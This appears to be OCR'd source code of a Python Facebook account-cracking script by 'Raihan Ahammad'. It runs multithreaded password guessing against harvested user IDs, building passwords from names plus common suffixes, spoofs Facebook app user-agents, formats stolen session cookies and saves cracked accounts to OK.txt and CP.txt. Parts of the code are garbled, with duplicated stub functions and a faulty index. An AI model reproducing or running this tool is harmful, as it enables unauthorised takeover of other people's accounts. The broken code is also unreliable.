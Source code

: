 		print('\n\tCrack Processing...\n')
			print('\n\tCrack Processing...\n\n');logo()
			with ThreadPoolExecutor(max_workers=25) as (_ngentot_gratis_):
				for yntkts in self.id:
					try:
						uid, name = yntkts.split('|')
						xz = name.split(' ')
						if len(xz) == 1:
							pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[0]+"1234"]
						elif len(xz) == 2:
							pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[0]+"1234"]
						elif len(xz) == 3:
							pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[0]+"1234"]
						elif len(xz) == 4:
							pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[0]+"1234"]
						else:
							pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[0]+"1234"]
						_ngentot_gratis_.submit(self.__mbasic__, uid, pwx)
					except:
						pass
			os.remove(self.apk)
			hasil(ok,cp)
		elif yan in ('2', '02'):
			
			time.sleep(1)
			print('\n[♡] Result OK saved to OK.txt')
			print('[♡] Result CP saved to CP.txt')
			print('\n\tCrack Processing...\n')
			print('\n\tCrack Processing...\n\n');logo()
			with ThreadPoolExecutor(max_workers=35) as (_ngentot_gratis_):
				for yntkts in self.id:
					try:
						uid, name = yntkts.split('|')
						xz = name.split(' ')
						if len(xz) == 1:
							pwx = [name, xz[0]+"123", xz[0]+"12345"]
						elif len(xz) == 2:
							pwx = [name, xz[0]+"123", xz[0]+"12345"]
						elif len(xz) == 3:
							pwx = [name, xz[0]+"123", xz[0]+"12345"]
						elif len(xz) == 4:
							pwx = [name, xz[0]+"123", xz[0]+"12345"]
						else:
							pwx = [name, xz[0]+"123", xz[0]+"12345"]
						_ngentot_gratis_.submit(self.__mbasic__, uid, pwx)
					except:
							pass
			os.remove(self.apk)
			hasil(ok,cp)
		elif yan in ('4', '04'):
			time.sleep(1)
			print('\n[♡] Result OK saved to OK.txt')
			print('[♡] Result CP saved to CP.txt')
			print('\n\tCrack Processing...\n')
			print('\n\tCrack Processing...\n\n');logo()
			with ThreadPoolExecutor(max_workers=20) as (_ngentot_gratis_):
				for yntkts in self.id:
					try:
						uid, name = yntkts.split('|')
						xz = name.split(' ')
						if len(xz) == 1:
							pwx = [name, xz[0]+"12", xz[0]+"1234", xz[0]+"786"]
						elif len(xz) == 2:
							pwx = [name, xz[0]+"12", xz[0]+"1234", xz[0]+"786"]
						elif len(xz) == 3:
							pwx = [name, xz[0]+"12", xz[0]+"1234", xz[0]+"786"]
						elif len(xz) == 4:
							pwx = [name, xz[0]+"12", xz[0]+"1234", xz[0]+"786"]
						else:
							pwx = [name, xz[0]+"12", xz[0]+"1234", xz[0]+"786"]
						_ngentot_gratis_.submit(self.__mbasic__, uid, pwx)
					except:
							pass
			os.remove(self.apk)
			hasil(ok,cp)
		else:
			print('\nSalah')
			time.sleep(1)
			self.__pler__()
 
if __name__=='__main__':
	
	help()
	
imtiazak_ua_xaomi  = 'Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'
imtiazak_ua_nokia   = 'nokiac3-00/5.0 (07.20) profile/midp-2.1 configuration/cldc-1.1 mozilla/5.0 applewebkit/420+ (khtml, like gecko) safari/420+'
imtiazak_ua_asus    = 'Mozilla/5.0 (Linux; Android 5.0; ASUS_Z00AD Build/LRX21V) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/37.0.0.0 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'
imtiazak_ua_huawei  = 'Mozilla/5.0 (Linux; Android 8.1.0; HUAWEI Y7 PRIME 2019 Build/5887208) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.62 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'
imtiazak_ua_vivo    = 'Mozilla/5.0 (Linux; Android 11; vivo 1918) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.62 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'
imtiazak_ua_oppo    = 'Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.105 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'
imtiazak_ua_samsung = 'Mozilla/5.0 (Linux; Android 5.0; SM-G900P Build/LRX21T; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/43.0.2357.121 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/35.0.0.48.273;]'
imtiazak_ua_windows = 'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'
banner="""\033[1;34m
\033[1;32m
   
                                                            
                       ,,    ,,                             
`7MM"""Mq.             db  `7MM                             
  MM   `MM.                  MM                             
  MM   ,M9   ,6"Yb.  `7MM    MMpMMMb.   ,6"Yb.  `7MMpMMMb.  
  MMmmdM9   8)   MM    MM    MM    MM  8)   MM    MM    MM  
  MM  YM.    ,pm9MM    MM    MM    MM   ,pm9MM    MM    MM  
  MM   `Mb. 8M   MM    MM    MM    MM  8M   MM    MM    MM  
.JMML. .JMM.`Moo9^Yo..JMML..JMML  JMML.`Moo9^Yo..JMML  JMML.
                                                            
\033[1;32m ♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡
    Author   ➵ RAIHAN AHAMMAD  NEW FRIEND)
    Facebook ➵ (RAIHAN AHAMMAD)
    Version  ➵ 0.4
 \033[1;92m♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡
 \033[1;32m                   RAIHAN(LOVE YOU MOM-XD) \033[1;34m
 \033[1;92m♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡♡"""
ct = datetime.now()
n = ct.month
monthsx = ["January", "February", "March", "April", "May", "June", "July", "August", "September", "October", "November", "December"]
try:
	if n < 0 or n > 12:
		exit()
	nTemp = n - 1
except ValueError:
	exit()
urls="https://business.facebook.com/business_locations"
_ses=requests.Session()
def logo():
	time.sleep(0.5)
	os.system("clear")
	print(banner)
	print("")
	time.sleep(0.5)
 
def convert(cok):
	__for=(
			'datr='+cok['datr']
		)+';'+(
			'c_user='+cok['c_user']
		)+';'+(
			'fr='+cok['fr']
		)+';'+(
			'xs='+cok['xs'] )
	return __for
def ak():
    print("")
    a()
def a1k():
    print("")
    a()
def aoo():
    print("")
    a()
def ff():
    print("")
    a()
def ak():
    print("")
    a()
def a1k():
    print("")
    a()
def aoo():
    print("")
    a()
def ff():
    print("")
    a()
def ak():
    print("")
    a()
def a1k():
    print("")
    a()
def aoo():
    print("")
    a()
def ff():
    print("")
    a()
def ak():
    print("")
    a()
def a1k():
    print("")
    a()
def aoo():
    print("")
    a()
def ff():
    print("")
    a()
def ak():
    print("")
    a()
def a1k():
    print("")
    a()
def aoo():
    print("")
    a()
def ff():
    print("")
    a()
def ak():
    print("")
    a()
def a1k():
    print("")
    a()
def aoo():
    print("")
    a()
def ff():
    print("")
    a()
def dupcutter():
	os.system("xdg-open https://wa.me/+8801704945975")
	time.sleep(3)
	R()
def yt():
	logo()
	os.system("xdg-open +Walink")
	time.sleep(3)
	R()
    
if __name__=='__main__':
	R() Raihan.py
